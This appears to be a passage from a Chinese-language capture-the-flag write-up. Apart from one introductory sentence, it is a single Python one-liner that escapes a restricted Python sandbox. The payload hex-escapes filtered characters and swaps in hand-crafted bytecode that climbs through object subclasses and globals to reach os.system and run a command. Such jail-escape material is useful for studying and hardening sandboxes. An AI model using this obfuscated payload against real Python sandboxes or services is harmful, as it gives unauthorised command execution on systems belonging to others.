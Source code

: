 我们写成一行即可输入：

```python
payload = (f := lambda:(),f.__dict__.update((('c\x6f_c\x6fn\x73t\x73',(0, '', 1, 142, '\x73y\x73tem', 'cmd')),('c\x6f_name\x73', ('__cla\x73\x73__', '__mr\x6f__', '__\x73\x75bcla\x73\x73e\x73__', '__init__', '__gl\x6fbal\x73__')),('c\x6f_c\x6fde',b'\x97\x00\x02\x00d\x01j\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x01\x00\x00\x00\x00\x00\x00\x00\x00d\x02\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x03\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00j\x03\x00\x00\x00\x00\x00\x00\x00\x00j\x04\x00\x00\x00\x00\x00\x00\x00\x00d\x04\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00'))),f.__setattr__('__c\x6fde__', f.__code__.replace(**f.__dict__)),f())
```

